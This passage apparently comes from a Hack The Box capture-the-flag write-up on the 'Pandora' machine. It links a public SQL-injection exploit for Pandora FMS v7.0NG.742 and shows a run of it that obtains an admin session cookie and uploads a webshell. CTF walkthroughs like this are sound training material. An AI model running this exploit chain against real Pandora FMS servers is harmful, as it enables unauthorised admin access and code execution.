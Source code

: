 <img src="/assets/img/htb/pandora4.png" alt="matt">

Hmmm, if there is any way to upload files, we can upload a reverse shell to get access to the system.

There is not any fast method to get this working but... Searching for a script to do that I found this [one](https://raw.githubusercontent.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/master/sqlpwn.py).

This script is able to get us an admin session_id and upload a webshell, but it is giving me some problems.

```
❯ python exploit.py -t 127.0.0.1:8080 -f shell.php
URL: http://127.0.0.1:8080/pandora_console
[+] Sending Injection Payload
[+] Requesting Session
[+] Admin Session Cookie : 7pcmj1a43s35m1u6903br8213a
[+] Sending Payload 
[+] Respose : 200
[+] Pwned :)
```

> We are IN!

#### Admin access

Well, now, we need to get a bash shell... After searching for a long time to get one I aam not able to do, so let's get into admin session on the website. 

Ok, it works!
